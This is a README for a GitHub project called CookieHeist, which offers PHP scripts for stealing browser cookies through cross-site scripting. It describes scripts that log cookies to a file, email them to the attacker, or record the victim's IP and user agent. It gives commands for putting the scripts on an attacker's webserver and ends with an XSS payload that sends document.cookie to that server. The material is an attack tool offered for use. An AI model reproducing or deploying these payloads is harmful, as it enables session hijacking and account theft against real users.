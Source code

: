 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to cookielog.txt. 

2. Cookiesteal-simple-v2.php - Records whatever "c" parameter holds, writes value to cookielog.txt and redirects to Google.com.

3. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

4. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):
sudo service apache2 start

2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine.  
git clone https://github.com/RxSec/CookieHeist. 
cd CookieHeist. 
sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/. 
sudo scp cookielog.txt username@AttackMachine:/var/www/html/. 

Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
